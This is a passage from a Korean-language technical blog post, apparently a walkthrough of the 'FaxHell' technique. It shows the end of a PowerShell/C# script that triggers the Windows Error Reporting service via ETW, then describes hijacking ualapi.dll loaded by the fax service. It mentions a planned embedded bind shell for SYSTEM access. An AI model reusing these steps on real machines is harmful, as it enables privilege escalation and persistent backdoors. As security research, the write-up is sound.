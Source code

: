 ```cpp
EventUnregister(handle);
}
}
}
 
[DllImport("Advapi32.dll", SetLastError = true)]
public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
[DllImport("Advapi32.dll", SetLastError = true)]
public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
[DllImport("Advapi32.dll", SetLastError = true)]
public static extern uint EventUnregister(long RegHandle);
}
}
"@
$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()
```

해당 스크립트를 실행하면 서비스가 실행된다.

```cpp
sc query wersvc

SERVICE_NAME: wersvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

### 1.3 DLL Hijacking

다시 Fax 서비스로 돌아와서 fax 서비스가 실행되면, fxssvc.exe 파일이 C:\windows\system32\uaiapi.dll파일 로드하는것을 확인 할 수 있다.

하지만 세가지 문제점이 존재하는데

![5](https://holiam.kr\postimage\2021-05-12-faxhell\5.png)

1. 해당 서비스가 SYSTEM 권한이 아닌 NETWORK SERVICE 권한으로 실행된다.
2. 해당 서비스가 GetProcAddress API를 이용하여 ualapi.dll 에서 dllexport 함수를 찾는다.
3. 해당 서비스는 실제 팩스가 있지 않으면 시작과 거의 동시에 종료된다. 그래서 해당 서비스를 유지하려면 실제 팩스를 대기시키거나, 종료되지 않도록 스레드를 실행시켜놔야 한다.

2번과 3번을 같이 해결하려고 했으며,

일반적으로 악의적인 권한 상승 공격의 경우 Dllmain을 이용하지만,
해당 취약점은 System권한 획득이 목적이기 때문에 더 어려우며, 임베디드 바인드 쉘을 개발하는게 더 현명한 방법이다.
